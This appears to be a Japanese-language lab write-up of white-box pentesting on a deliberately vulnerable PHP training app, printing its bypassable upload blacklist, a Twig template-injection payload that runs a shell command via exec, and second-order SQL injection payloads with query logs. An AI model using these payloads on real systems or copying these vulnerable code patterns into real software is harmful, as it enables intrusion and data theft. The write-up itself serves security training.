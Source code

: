 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [trouble1](#trouble1)
  - [file upload](#file-upload)
  - [SSTI](#ssti)
  - [SQL Injection](#sql-injection)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# trouble1
https://github.com/TROUBLE-1/White-box-pentesting  

## file upload
以下の`admin/upload.php`でfile uploadの脆弱性がある。  
```php
<html>
<body>

<?php

    if(isset($_REQUEST['upload'])){

	if($_FILES["file"]["error"])
	{
		header("Location: welcome.php");
		die();	
	}

	$notAllowed = array('php','php1','php2','php3','php4','php5','php6','php7','phtml','exe','html','cgi','asp','gif','jpeg','png','vb','inf');

	$splitFileName = explode(".", $_FILES["file"]["name"]);

	$fileExtension = end($splitFileName);

	if(in_array($fileExtension, $notAllowed))
	{
		echo "Please upload a TEXT file";
	}
	else{

		echo "Name: ".$_FILES["file"]["name"];
		echo "<br>Size: ".$_FILES["file"]["size"];
		echo "<br>Temp File: ".$_FILES["file"]["tmp_name"];
		echo "<br>Type: ".$_FILES["file"]["type"];

		move_uploaded_file($_FILES["file"]["tmp_name"], "uploads/".$_FILES["file"]["name"]);
	}
    }

?>

</body>
</html>

```
![image](https://user-images.githubusercontent.com/56021519/112270980-b21ec280-8cbd-11eb-8d31-6188d7853b63.png)  
![image](https://user-images.githubusercontent.com/56021519/112271023-be0a8480-8cbd-11eb-9ade-8ce79aa8dedf.png)  


## SSTI
`render`で検索すると以下のようにtwigが使用されているのでSSTIの可能性  
![image](https://user-images.githubusercontent.com/56021519/112273153-5e61a880-8cc0-11eb-8b91-ae44710b4a4c.png)  
なんかコードがミスっててerrorになるので以下のように編集した。  
```php
<?php
   if (isset($_REQUEST['submit'])) {
       $name=$_REQUEST['name'];
       // include and register Twig auto-loader
       include 'twig/twig/lib/Twig/Autoloader.php';
       Twig_Autoloader::register();
       try {
             // specify where to look for templates
                 $loader = new Twig_Loader_String();  
             // initialize Twig environment
                 $twig = new Twig_Environment($loader);
            // set template variables
            // render template
               $result= $twig->render($name);
               echo "<h2 style='color:white;'>You searched for ". @$result ."</h2>";
       } catch (Exception $e) {
             die ('<h2 style="color:white;">Bad Username</h2>' );
           }
   }
   ?>
```
![image](https://user-images.githubusercontent.com/56021519/112273054-425e0700-8cc0-11eb-9d65-b70dc6478770.png)  

以下で成功！  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection  
```txt
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
![image](https://user-images.githubusercontent.com/56021519/112273908-39216a00-8cc1-11eb-9dd6-cb89f5f5c89e.png)  

## SQL Injection
ログを見ると、`BBB'`というユーザー名でRegisterした場合、以下のようにSQLInjectionできることがわかる！  
insertとselectでは違う構文でInjectionする必要があるが、その都度別のユーザー名を作成すれば任意のデータを読みだせる！  
```txt
                    70 Query    INSERT INTO user_log(username, login_date) values ('BBB'', '03/24/2021 04:04:12 am')

                    72 Query    SELECT * FROM user_log WHERE username = 'BBB''
```
`user_log.php`  
`$login_session`に`'`とかがエスケープされてない場合はSQLInjection可能！  
```php
                  if(isset($login_session)) {
               
                       $sql = "SELECT * FROM user_log WHERE username = '$login_session'";   
```
`session.php`  
`$login_session`には`BBB'`が入る！  
登録する前にPHP上では`\'`としてエスケープしていてもDBに登録する際に`'`に戻るので、それを読みだして使うとヤバい。  
```php
<?php
   include('config.php');
   session_start();
   
   $user_check = $_SESSION['login_user'];
   
   $ses_sql = mysqli_query($db,"select username from users where username = '$user_check' ");
   
   $row = mysqli_fetch_array($ses_sql,MYSQLI_ASSOC);
   
   $login_session = $row['username'];

    if(!isset($login_session)){
        header("location: index.php");
    }
?>
```
以下のように二つのユーザー名で作成するとデータを読みだせる。  
べつにinsertの方はやらなくてもよさそう。  
```txt
',version())#
                    81 Query    INSERT INTO user_log(username, login_date) values ('',version())#', '03/24/2021 04:15:11 am')
                    83 Query    SELECT * FROM user_log WHERE username = '',version())#'


' union select 1,2,3#
                    90 Query    INSERT INTO user_log(username, login_date) values ('' union select 1,2,3#', '03/24/2021 04:18:19 am')
                    92 Query    SELECT * FROM user_log WHERE username = '' union select 1,2,3#'
```
![image](https://user-images.githubusercontent.com/56021519/112277693-58ba9180-8cc5-11eb-8050-3ecbb620046d.png)  


